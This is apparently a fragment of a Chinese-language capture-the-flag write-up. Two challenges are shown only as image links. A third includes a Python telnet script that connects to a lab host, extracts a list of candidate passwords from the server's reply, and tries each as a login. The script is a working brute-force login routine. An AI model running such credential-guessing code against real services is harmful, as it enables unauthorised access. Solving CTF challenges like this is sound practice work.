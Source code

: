 [编码网址]: https://coding.tools/cn

## 03题 隐藏：

<img src="https://img1.imgtp.com/2023/09/03/kc9KOqHa.png" alt="image-20230731020046291" style="zoom:67%;" />

## 04题 文件格式：

![image-20230824214021124](https://img1.imgtp.com/2023/09/03/6b4gIFjJ.png)

## 05题 熟读登录密码三百首：

```python
import telnetlib
import time

tn = telnetlib.Telnet("10.140.32.159",48127)
#tn
tn.write('whosyourdaddy'.encode('utf-8') + b'\n')

time.sleep(0.02)

res = tn.read_very_eager().decode('utf-8')

#res
print(res)
#print(type(res))
#print('\n\n\n')
res = res[130:].replace('\n','')
print(res)

s = ''
password = []
for i in res:
  if i!=' ':
    s+=i
  else:
    password.append(s)
    s=''

print(password)

for i in range(len(password)):
  payload = 'login [' + password[i] + ']'
  print(payload)
  tn.write(payload.encode('utf-8') + b'\n')

  res = tn.read_very_eager().decode('utf-8')
  print(res)
  time.sleep(0.02)
```
